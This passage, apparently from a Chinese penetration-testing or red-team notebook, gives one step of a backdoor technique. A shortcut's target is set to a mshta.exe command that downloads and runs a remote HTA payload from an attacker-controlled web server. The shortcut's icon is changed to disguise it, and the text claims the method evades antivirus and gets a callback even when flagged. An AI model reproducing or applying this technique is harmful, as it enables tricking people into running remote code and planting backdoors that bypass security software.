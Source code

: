 4、利用系统自带的白名单 mshta.exe 远程程序调用后门，我还是没用 cs 构造的地址，我用 python 启动的 web 服务

```
C:\Windows\System32\mshta.exe http://192.168.0.103:1222/1.hta
```

把快捷方式的目标改为以上命令，然后属性**更改图标**伪装，或者用 `Restorator 2018` 更改图标

<img src=".\图片\Snipaste_2023-01-02_20-50-44.png" alt="Snipaste_2023-01-02_20-50-44" style="zoom:80%;" />

运行上线

<img src=".\图片\Snipaste_2023-01-02_21-00-14.png" alt="Snipaste_2023-01-02_21-00-14" style="zoom: 67%;" />

**注意**：运用 `C:\Windows\System32\mshta.exe` 是内存执行，本身就是免杀，但是**遇到杀毒软件是先报毒却依然执行上线了**
